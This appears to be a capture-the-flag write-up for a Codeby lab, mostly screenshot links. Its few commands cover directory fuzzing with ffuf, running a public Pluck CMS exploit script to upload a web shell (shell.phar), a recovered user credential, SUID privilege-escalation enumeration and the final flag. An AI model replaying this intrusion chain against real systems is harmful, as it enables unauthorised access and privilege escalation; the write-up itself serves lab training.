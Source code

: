 62.173.140.174:18000

![image](https://user-images.githubusercontent.com/62753044/232470451-dc12ae4f-c0ad-4eea-9330-2185711e60fc.png)

ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://62.173.140.174:18000/FUZZ.php

![image](https://user-images.githubusercontent.com/62753044/232470497-7b480313-30a0-4879-a9ca-37ae333b8f88.png)

https://www.exploit-db.com/

![image](https://user-images.githubusercontent.com/62753044/232470532-377d213e-3613-422f-aae1-80e05482bda5.png)

![image](https://user-images.githubusercontent.com/62753044/232470554-d0c0698a-09fd-4736-96dc-aa0d2ddeec97.png)

![image](https://user-images.githubusercontent.com/62753044/232470562-9bc477bf-a32d-4463-941b-c3b7a7cf7306.png)

![image](https://user-images.githubusercontent.com/62753044/232470572-9649635e-19f9-48b5-a5a9-5bb9157d3471.png)

python3 pluck.py 62.173.140.174 18000 liverpool ""

![image](https://user-images.githubusercontent.com/62753044/232470608-b779d938-00d2-4476-831d-eefdd7a53707.png)

http://62.173.140.174:18000/files/shell.phar

![image](https://user-images.githubusercontent.com/62753044/232474643-5a385d43-d50c-435c-8ae2-de6178742d6c.png)

![image](https://user-images.githubusercontent.com/62753044/232474961-ca2edc00-f685-49af-92a0-09ba6cdd80ea.png)

![image](https://user-images.githubusercontent.com/62753044/232475153-64a9d3a6-963d-4f99-b7de-9706b7a603d1.png)

john:j0hnl0v3c0d3by

![image](https://user-images.githubusercontent.com/62753044/232475687-4d38cde6-01b5-4c68-bf2c-ae6e52301aa6.png)

![image](https://user-images.githubusercontent.com/62753044/232470645-8a389a66-130a-4638-a106-f03117839217.png)

find / -user root -perm -4000 -print 2>/dev/null

![image](https://user-images.githubusercontent.com/62753044/232470696-90df487f-fb18-46ce-af41-71edefcf2321.png)

![image](https://user-images.githubusercontent.com/62753044/232472019-89153e96-0a60-4445-bc7f-90ca95d223bb.png)

![image](https://user-images.githubusercontent.com/62753044/232472463-03194abf-c54b-490f-ba9d-fd53099fdb69.png)

![image](https://user-images.githubusercontent.com/62753044/232477341-c427f78a-086e-4ced-ac7e-ce52ffb46097.png)

![image](https://user-images.githubusercontent.com/62753044/232477427-b25ea36b-500f-479c-a4f8-8a9cc5911017.png)

![image](https://user-images.githubusercontent.com/62753044/232477567-00049d88-eafc-4b8b-8ee4-2ce86000df56.png)

CODEBY{und3r_cms_0r_grou9d}

